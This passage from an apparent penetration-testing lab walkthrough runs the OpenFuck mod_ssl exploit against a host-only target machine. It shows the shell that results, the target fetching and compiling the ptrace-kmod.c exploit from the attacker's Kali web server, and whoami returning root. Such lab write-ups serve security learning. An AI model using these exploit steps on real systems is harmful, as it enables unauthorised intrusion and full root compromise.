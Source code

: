 This is because for safety reasons, I run the target's machine on a host-only network adapter. This means the `wget` command will fail as no connection to the internet can be made. A quick workaround for this is to `wget https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c` on my Kali Linux machine first and then edit the exploit so that it lets the target download the file from my Kali Linux machine instead of from the original source.


On Kali:

```bash
kali@kali:~$ wget https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
kali@kali:~$ nano ptrace-kmod.c
kali@kali:~$ python -m SimpleHTTPServer 7777
```

In a second Terminal tab on Kali:

```bash
kali@kali:~$ ./a.out 0x6b 192.168.56.107 443 -c 40

*******************************************************************
* OpenFuck v3.0.4-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

Connection... 40 of 40
Establishing SSL connection
cipher: 0x4043808c   ciphers: 0x80f8068
Ready to send shellcode
Spawning shell...
bash: no job control in this shell
bash-2.05$
c; gcc -o exploit ptrace-kmod.c -B /usr/bin; rm ptrace-kmod.c; ./exploit; -kmod.
--20:05:57--  http://192.168.56.102:7777/ptrace-kmod.c
           => `ptrace-kmod.c'
Connecting to 192.168.56.102:7777... connected!
HTTP request sent, awaiting response... 200 OK
Length: 3,921 [text/plain]

    0K ...                                                   100% @   3.74 MB/s

20:05:57 (3.74 MB/s) - `ptrace-kmod.c' saved [3921/3921]

gcc: file path prefix `/usr/bin' never used
[+] Attached to 1293
[+] Waiting for signal
[+] Signal caught
[+] Shellcode placed at 0x4001189d
[+] Now wait for suid shell...
whoami
root
```
